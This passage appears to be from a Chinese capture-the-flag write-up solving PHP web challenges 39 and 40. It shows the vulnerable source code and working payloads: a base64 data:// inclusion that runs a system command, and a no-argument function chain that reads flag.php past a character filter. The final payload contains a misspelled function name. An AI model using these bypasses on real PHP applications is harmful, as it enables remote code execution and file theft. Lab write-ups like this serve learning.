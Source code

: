 解法一：

原理同上一题，多了个php过滤，base64编码绕过即可

payload：
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZioiKTs=

## web 39

```php
<?php

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```

同37



## web 40

```php
<?php

if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```

过滤了引号、美元符号、冒号，这里可以构造无参数函数进行文件读取

<a href='https://www.cnblogs.com/NPFS/p/13778333.html' target='_blank'>无参数文件读取</a>

看来上面这篇文章应该可以知道scandir(current(localeconv())) 查看当前目录所有文件名

我们可以发现flag.php在数组的倒数第二个值里，我们可以通过 array_reverse 进行逆转数组，然后用next()函数进行下一个值的读取，记得成功读取flag.php文件

payload:?c=highlight_flie(next(array_reverse(scandir(current(localeconv())))));
